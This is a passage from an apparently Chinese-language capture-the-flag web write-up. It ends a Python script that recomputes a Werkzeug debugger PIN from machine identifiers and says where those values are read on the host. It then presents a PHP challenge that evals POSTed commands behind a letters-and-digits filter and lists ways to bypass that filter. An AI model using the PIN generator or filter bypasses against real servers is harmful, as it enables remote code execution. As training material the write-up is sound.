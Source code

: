 ```python
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)

```

**需要填的值就一个变化的地方—机器码。旧版的只需要读取/proc/self/cgroup即可，但是新增需要在前面再拼上/etc/machine-id或者/proc/sys/kernel/random/boot_id的值**

##  web802

考点：无数字字母进行命令执行

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
$cmd = $_POST['cmd'];

if(!preg_match('/[a-z]|[0-9]/i',$cmd)){
    eval($cmd);
}
```

方法：异或，或，取反，自增，上传临时文件

羽师傅的博客：https://blog.csdn.net/miuzzx/article/details/109143413
